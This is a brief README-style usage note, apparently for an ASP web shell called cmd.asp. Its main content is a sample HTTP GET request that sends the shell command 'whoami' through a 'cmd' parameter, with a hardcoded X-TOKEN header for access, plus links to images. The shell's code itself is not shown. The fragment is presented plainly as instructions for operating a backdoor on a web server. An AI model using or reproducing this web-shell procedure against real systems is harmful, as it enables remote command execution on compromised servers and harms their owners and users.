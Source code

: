 How to use this cmd.asp

```
GET /path/cmd.asp?cmd=whoami HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Length: 4

```
![image](https://user-images.githubusercontent.com/24661746/131246126-a64600c2-e3fe-41b2-bf4e-effcaca9aeea.png)

